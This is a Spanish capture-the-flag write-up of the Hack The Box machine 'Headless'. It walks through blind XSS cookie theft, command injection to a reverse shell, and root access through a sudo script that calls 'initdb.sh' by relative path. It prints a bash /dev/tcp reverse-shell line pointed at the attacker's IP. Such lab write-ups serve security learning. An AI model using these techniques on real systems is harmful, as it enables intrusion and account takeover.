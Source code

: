 ```yaml
---
layout: default
title: Headless
---
```

## ENUMERACIÓN
Primero comprobamos que hay conexión con el equipo.
```bash
$ ping -c 1 10.129.193.81
PING 10.129.193.81 (10.129.193.81) 56(84) bytes of data.
64 bytes from 10.129.193.81: icmp_seq=1 ttl=63 time=7.58 ms

--- 10.129.193.81 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 7.583/7.583/7.583/0.000 ms
```
Escaneamos a ver si tiene algún puerto abierto:
```bash
$ nmap 10.129.193.81
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-31 14:41 CDT
Nmap scan report for 10.129.193.81
Host is up (0.010s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
```
Vemos que tiene los puertos 22 y 5000 abiertos, vamos a escanearlos más a fondo:
```bash
$ nmap -sCV -p22,5000 10.129.193.81 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-31 14:45 CDT
Nmap scan report for 10.129.193.81
Host is up (0.0076s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sat, 31 May 2025 19:45:20 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
<<SNIP>>
```
Vemos que tiene una versión a priori no vulnerable de ssh y en el puerto 5000 corriendo un servidor web de Werkzeug. Podemos deducirlo por las cabeceras HTTP y por el código html que se ve abajo.
<img src="/Imagenes_Write_Ups/HTB/214858.png">
Nos encontramos esto al meternos a la página web, tenemos un botón `For questions` que si le damos nos redirige a un formulario de contacto en `http://10.129.193.81:5000/support`:
<img src="/Imagenes_Write_Ups/HTB/215005.png">
Podemos intentar una XSS, probaremos en el cuerpo de mensajes:
<img src="/Imagenes_Write_Ups/HTB/215037.png">
![[headless4.png]]
No nos sale la alerta que queríamos pero nos muestra que han detectado un ataque y que se enviarán estos datos (las cabeceras de la petición HTTP que realizamos) a los investigadores, lo que huele a ser una XSS ciega, tenemos control de todas las cabeceras, asi que capturaremos la petición con burpsuite.

Una vez en BurpSuite, con la petición, vamos a probar a inyectar código JavaScript en las Cookies:
![[Pasted image 20250531215724.png]]
Esto debería de darnos una alerta en el navegador que diga PWNED si las cookies son vulnerables a XSS.
![[Pasted image 20250531215920.png]]
En efecto, es vulnerable a XSS.
![[Pasted image 20250531215942.png]]
Podemos ver como en las cookies la `ShadowRooted_XSS` no se muestra, ya que es el código JavaScript, si le damos a inspeccionar podemos ver que pasa en esa parte:
![[Pasted image 20250531220114.png]]
Bien, sabiendo que es vulnerable y que la cookie se guarda como `is_admin` nos abriremos un puerto web con Python y usaremos un payload que nos envíe la cookie del administrador.
```bash
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Ahora, capturamos la petición de nuevo y añadimos en la cabecera de las cookies un payload que nos envíe la cookie del administrador que verá esta página.
![[Pasted image 20250531220845.png]]
A la espera de unos segundos recibimos la cookie:
```bash
10.129.193.81 - - [31/May/2025 15:09:47] "GET /admin_cookie?=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```
Aparte de esa petición con la cookie nos hace otras 3, las cuales le da error 404, esto se debe a que el `document.location` le redirige a nuestra página y va a intentar buscar el archivo index, no obstante no existe, lo suyo sería usar otro método que haga menos ruido.

Una vez tenemos la cookie del administrador, investigaremos sobre directorios en la web con ffuf:
```bash
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.129.193.81:5000/FUZZ -ic

support                 [Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 43ms]
dashboard               [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 41ms]
```
Encontramos el directorio `dashboard`, con código 500, vamos a intentar acceder:
![[Pasted image 20250531221506.png]]
Recibimos que el servidor no pudo verificar si estamos autorizados para acceder al recurso. Bien, en las dev tools, en almacenamiento y en cookie, sustituimos la de `is_admin` por la obtenida del administrador y recargamos:
![[Pasted image 20250531221630.png]]
Una vez recargamos podemos acceder y vemos una opción para generar reportes de la página el cual pongamos la fecha que pongamos siempre nos devuelve `Systems are up and running!`:
![[Pasted image 20250531221746.png]]
Capturamos la petición con Burpsuite y la enviamos al repeater:
![[Pasted image 20250531223819.png]]
Vemos que envía el parámetro `date` el cual pongas lo que pongas, sea una fecha válida o no sea ni una fecha, nos dice lo mismo. Aquí podríamos probar una inyección de comandos en el parámetro `date`, lo probamos con un `|` para así en caso de existir la vulnerabilidad que nos muestre únicamente la salida de nuestro comando.
![[Pasted image 20250531224111.png]]
![[Pasted image 20250531224125.png]]
Vemos que la respuesta del servidor es el nombre del usuario que ejecuta el servidor web, por lo que sí, hay una vulnerabilidad que nos permite inyectar comandos, bien, nos pondremos a escucha en el puerto 4444 con `nc` y nos enviaremos una reverse shell:
```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
```
Con el siguiente payload deberíamos recibir una reverse shell:
![[Pasted image 20250531224648.png]]
```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.115] from (UNKNOWN) [10.129.193.81] 49456
bash: cannot set terminal process group (1147): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ whoami
whoami
dvir
dvir@headless:~/app$ 

```
Efectivamente tenemos la reverse shell, vamos a hacerla más interactiva con los siguientes comandos:
```bash
$ stty raw -echo;fg
```
(Este se ejecuta en la máquina atacante, tenemos que poner en segundo plano la revershe shell con `ctrl+z`).
```bash
dvir@headless:~/app$ export TERM=xterm
```
```bash
dvir@headless:~/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Y ya tendríamos una shell interactiva.
En nuestro HOME tendríamos la flag de usuario:
```bash
dvir@headless:~$ ls
app  geckodriver.log  user.txt
dvir@headless:~$ cat user.txt
```
Si verificamos los permisos de sudo que tenemos vemos que podemos ejecutar como sudo y sin contraseña el script `syscheck` que se encuentra en `/usr/bin/`:
```bash
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```
Vamos a leer el contenido del script:
```bash
dvir@headless:~$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

```
Vemos que al final del script, ejecuta usando una ruta relativa el script `initdb.sh`. Al usar una ruta relativa, se ejecuta el script con ese nombre encontrado en el directorio en el que estemos nosotros. Por lo que podemos aprovechar para crear un script que nos proporcione una reverse shell como sudo:
```bash
dvir@headless:~$ cd /tmp/
dvir@headless:/tmp$ cat initdb.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.115/4444 0>&1

dvir@headless:/tmp$ chmod +x initdb.sh
```
Una vez creado el script y haberle dado permisos de ejecución, si ejecutamos el script `syscheck` con permisos sudo, obtendríamos una reverse shell como usuario root, no sin antes haber puesto a escucha el puerto 4444 en nuestra máquina atacante.
```bash
dvir@headless:/tmp$ sudo syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.07, 0.03, 0.02
Database service is not running. Starting it...
```
Y recibimos la reverse shell como root:
```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.115] from (UNKNOWN) [10.129.193.81] 56312
root@headless:/tmp# whoami
whoami
root

```
En `/root/` tenemos root flag:
```bash
root@headless:~# ls
root.txt
```
